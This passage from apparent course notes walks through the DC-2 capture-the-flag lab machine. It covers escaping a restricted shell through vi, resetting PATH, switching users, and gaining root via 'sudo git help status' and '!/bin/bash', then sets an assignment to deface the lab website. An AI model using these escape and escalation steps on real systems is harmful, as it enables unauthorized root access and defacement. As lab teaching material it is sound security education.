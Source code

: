 To do so, we need to abuse some features of vi.  Let's try the following commands:

vi

:set shell=/bin/sh --> We're setting the shell variable with the /bin/sh command.  When you hit enter, it's going to look like nothing is happening ... be patient!  Keep going on.

:shell --> This should've brought you out of vi and back to your command prompt.

/bin/bash --> This gets you into a good Bourne Again ShellLinks to an external site..  

But we are still restricted.  So, we need to fix that:

echo $PATH --> It's always good to echo it out before you modify.  That way you can revert back if something goes south.

export PATH=/bin/:/usr/bin/:/usr/local/bin:$PATH --> This adds all these paths into your $PATH so the computer knows where to look for the binaries.

echo $PATH --> Just to verify everything went through.  It should return: /bin/:/usr/bin/:/usr/local/bin:/home/tom/usr/bin

Now we can su to Jerry ...

su jerry --> If you try to ls -latr, you'll notice that you get access denied.  This is because you're now Jerry, but you're trying to list the contents of /home/tom, which you can't do.  

cd ~ --> fixes this by going to Jerry's home directory.

ls -latr --> SWEET!  We can see flag4.txt.  Just cat that file to read the contents.

cat flag4.txt

But now we're stuck again.  Because what does "git outta here" really even mean?  Since our overall goal is to cause some sort of impact on this system, we'll have to have root access to do that.  And Jerry doesn't have that yet.  So, let's look at what Jerry has permissions to run as root.  

sudo -l --> This lists the commands that Jerry can run as sudo.  And we see that git is listed there.  But just running git doesn't do us much good because it runs and then exits.  We need something that is going to run and then hang or wait for user input.  Because that user input will be run as root!  It just so happens that there is a command that will do that.

sudo git help status --> it's the help menu or manual page.  SWEET!  Now we can issue the next command to break out of here!

!/bin/bash --> Heck yeah!!!  That was easy!  We're now root.  We just have to find the file and read it.

ls -latr --> This doesn't quite work because we're trying to list Jerry's home directory.  

cd ~ --> There we go!!!  I'll let you figure out what to do from here! 

Don't forget to do the assignment.  Escalate Privilege: DC-2 Continued.

Days 22 & 23:
These were the days we've been waiting for!  We caused impact on our target machines.  A successful impact in this class is that you rickrolled the website.  This requires you to have root on the dc-2 machine.  Once you have root, we want to create a backup of the webpage - so we can return things back to the way they were.  You may want to try this a couple times, so it will be nice to be able to revert.  
